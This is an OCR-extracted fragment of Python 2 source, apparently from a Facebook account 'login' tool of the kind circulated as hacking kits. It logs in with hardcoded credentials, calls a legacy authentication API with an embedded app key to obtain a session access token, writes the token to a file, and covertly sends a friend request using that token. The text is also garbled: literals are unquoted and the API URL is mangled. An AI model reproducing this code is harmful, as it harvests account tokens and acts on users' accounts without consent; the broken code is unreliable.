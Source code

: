 		pwd = raw_input('\033[1;96m \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m')

		tik()

		try:

			br.open('https://m.facebook.com')

		except mechanize.URLError:

			print"\n\033[1;96m \x1b[1;91mThere is no internet connection"

			keluar()

		br._factory.is_html = True

		br.select_form(nr=0)

		br.form['email'] = ak4507539@gmail.com

		br.form['pass'] = p@kistan786

		br.submit()

		url = br.geturl()

		if 'save-device' in url:

			try:

				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'

				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}

				x=hashlib.new("md5")

				x.update(sig)

				a=x.hexdigest()

				data.update({'sig':a})

				url = ""https://www.facebook.com/profile.php?id=100068888791657

				r=requests.get(url,params=data)

				z=json.loads(r.text)

				unikers = open("login.txt", 'w')

				unikers.write(z['access_token'])

				unikers.close()

				print '\n\033[1;96m\x1b[1;92mLogin Successful'

				os.system('xdg-open https://www.facebook.com/Anonymoustricker1')

				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
